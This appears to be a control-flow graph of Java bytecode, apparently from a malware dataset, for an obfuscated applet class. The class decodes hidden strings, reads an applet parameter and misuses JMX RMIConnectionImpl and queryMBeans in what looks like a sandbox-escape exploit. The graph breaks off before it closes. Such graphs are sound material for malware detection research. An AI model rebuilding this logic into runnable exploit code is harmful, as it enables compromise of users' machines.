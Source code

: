 digraph "" {
    "r0 := @this: main"
    "new java.lang.StringBuilder"
    "r0 := @this: main"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"pOOeffy#=XSY\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"pOOeffy#=XSY\"";
    "push 7"
    "push \"pOOeffy#=XSY\""->"push 7";
    "push 9"
    "push 7"->"push 9";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"
    "push 9"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Kgimsasf7UFo\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Kgimsasf7UFo\"";
    "push \"Kgimsasf7UFo\""->"push 7";
    "push 8"
    "push 7"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r1";
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"nwZDIIv7Bqhfj\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"nwZDIIv7Bqhfj\"";
    "push 6"
    "push \"nwZDIIv7Bqhfj\""->"push 6";
    "push 6"->"push 9";
    "push 9"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"XyOI7bD45N\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"XyOI7bD45N\"";
    "push 3"
    "push \"XyOI7bD45N\""->"push 3";
    "push 5"
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"M5HMNX!m5TR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"M5HMNX!m5TR\"";
    "push \"M5HMNX!m5TR\""->"push 6";
    "push 6"->"push 9";
    "push 9"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7bcs3v_5u\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7bcs3v_5u\"";
    "push \"7bcs3v_5u\""->"push 3";
    "push 3"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"S_QV83q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"S_QV83q\"";
    "push 2"
    "push \"S_QV83q\""->"push 2";
    "push 4"
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "store.r r3"
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"store.r r3";
    "store.r r3"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"__HlMlppVG5gL\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"__HlMlppVG5gL\"";
    "push \"__HlMlppVG5gL\""->"push 6";
    "push 6"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8IfJid7lhHQqC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8IfJid7lhHQqC\"";
    "push \"8IfJid7lhHQqC\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"_QVlkZx\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"_QVlkZx\"";
    "push \"_QVlkZx\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r4"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"u\u007fq|\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"u\u007fq|\"";
    "push \"u\u007fq|\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r4"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\"";
    "push \"(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticinvoke <main: java.lang.String kavagad(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <main: java.lang.String kavagad(java.lang.String)>";
    "staticinvoke <main: java.lang.String kavagad(java.lang.String)>"->"store.r r4";
    "store.r r4"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"0s4\n/\u00141\u001d86\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"0s4\n/\u00141\u001d86\"";
    "push \"0s4\n/\u00141\u001d86\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r3"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u000b)&4<,\u001a\f\u000b\u0007\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u000b)&4<,\u001a\f\u000b\u0007\"";
    "push \"\u000b)&4<,\u001a\f\u000b\u0007\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007f\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007f\"";
    "push \"\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007f\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wq\r\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wq\r\"";
    "push \"wq\r\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <main: java.lang.String kavagad(java.lang.String)>";
    "staticinvoke <main: java.lang.String kavagad(java.lang.String)>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "push \"\\\"/.*\u001b,;\""
    "load.r r0"->"push \"\\\"/.*\u001b,;\"";
    "push \"\\\"/.*\u001b,;\""->"staticinvoke <main: java.lang.String kavagad(java.lang.String)>";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <main: java.lang.String kavagad(java.lang.String)>"->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "staticput <main: java.lang.String P533nxodkvJieHnNdld>"
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"staticput <main: java.lang.String P533nxodkvJieHnNdld>";
    "staticget <main: java.lang.String P533nxodkvJieHnNdld>"
    "staticput <main: java.lang.String P533nxodkvJieHnNdld>"->"staticget <main: java.lang.String P533nxodkvJieHnNdld>";
    "staticget <main: java.lang.String P533nxodkvJieHnNdld>"->"load.r r1";
    "load.r r1"->"load.r r4";
    "staticinvoke <main: java.lang.String hyzuWqr1B46(java.lang.String,java.lang.String,java.lang.String)>"
    "load.r r4"->"staticinvoke <main: java.lang.String hyzuWqr1B46(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <main: java.lang.String hyzuWqr1B46(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <main: java.lang.String P533nxodkvJieHnNdld>";
    "staticput <main: java.lang.String P533nxodkvJieHnNdld>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"Ug3jv198YMUvV\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"Ug3jv198YMUvV\"";
    "push \"Ug3jv198YMUvV\""->"push 2";
    "push 2"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BQ5Xfv4ZJGP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BQ5Xfv4ZJGP\"";
    "push \"BQ5Xfv4ZJGP\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"_EdEShAg7MGo\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"_EdEShAg7MGo\"";
    "push \"_EdEShAg7MGo\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ajl2nE0rfQD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ajl2nE0rfQD\"";
    "push \"Ajl2nE0rfQD\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"SMgTzO5hN_DjpnH\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"SMgTzO5hN_DjpnH\"";
    "push \"SMgTzO5hN_DjpnH\""->"push 4";
    "push 4"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nG3fgwMEhGD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nG3fgwMEhGD\"";
    "push \"nG3fgwMEhGD\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"store.r r1";
    "store.r r1"->"push 7";
    "push 7"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"store.r r3";
    "store.r r3"->"load.r r1";
    "load.r r1"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"a_M}v{rxQ2PMc\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"a_M}v{rxQ2PMc\"";
    "push \"a_M}v{rxQ2PMc\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"store.r r1";
    "store.r r1"->"push 5";
    "push 5"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"store.r r3";
    "store.r r3"->"load.r r1";
    "load.r r1"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <main: java.lang.String kavagad(java.lang.String)>";
    "staticput <main: java.lang.String Annpl4H5lvHul1SIxt9>"
    "staticinvoke <main: java.lang.String kavagad(java.lang.String)>"->"staticput <main: java.lang.String Annpl4H5lvHul1SIxt9>";
    "staticput <main: java.lang.String Annpl4H5lvHul1SIxt9>"->"staticget <main: java.lang.String P533nxodkvJieHnNdld>";
    "ifnull return"
    "staticget <main: java.lang.String P533nxodkvJieHnNdld>"->"ifnull return";
    "push null"
    "ifnull return"->"push null";
    "push null"->"store.r r1";
    "staticget <main: java.lang.String filename>"
    "store.r r1"->"staticget <main: java.lang.String filename>";
    "staticget <main: java.lang.String filename>"->"load.r r0";
    "store.r r0"
    "load.r r0"->"store.r r0";
    "goto load.r r1"
    "store.r r0"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "ifnull goto return"
    "load.r r1"->"ifnull goto return";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "ifnull goto return"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "checkcast"
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "checkcast"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r r0";
    "new ajxKNmdRf17KGw4nDxqd"
    "load.r r0"->"new ajxKNmdRf17KGw4nDxqd";
    "new ajxKNmdRf17KGw4nDxqd"->"dup1.r";
    "specialinvoke <ajxKNmdRf17KGw4nDxqd: void <init>()>"
    "dup1.r"->"specialinvoke <ajxKNmdRf17KGw4nDxqd: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <ajxKNmdRf17KGw4nDxqd: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"_94v2FOEsYsK2\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"_94v2FOEsYsK2\"";
    "push \"_94v2FOEsYsK2\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FG$+.0c8J9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FG$+.0c8J9\"";
    "push \"FG$+.0c8J9\""->"push 2";
    "push 2"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"_8Y4YumdMhu81vk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"_8Y4YumdMhu81vk\"";
    "push \"_8Y4YumdMhu81vk\""->"push 4";
    "push 4"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"JOTMRSDwI52\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"JOTMRSDwI52\"";
    "push \"JOTMRSDwI52\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"rWx*%,1RO\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"rWx*%,1RO\"";
    "push \"rWx*%,1RO\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"store.r r3";
    "store.r r3"->"push 3";
    "push 3"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"store.r r4";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "store.r r4"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"load.r r3";
    "load.r r3"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"emp2;3JXLpaN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"emp2;3JXLpaN\"";
    "push \"emp2;3JXLpaN\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <main: java.lang.String kavagad(java.lang.String)>";
    "staticinvoke <main: java.lang.String kavagad(java.lang.String)>"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "checkcast"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "push null"->"checkcast";
    "checkcast"->"load.r r1";
    "load.r r1"->"push null";
    "push null"->"checkcast";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
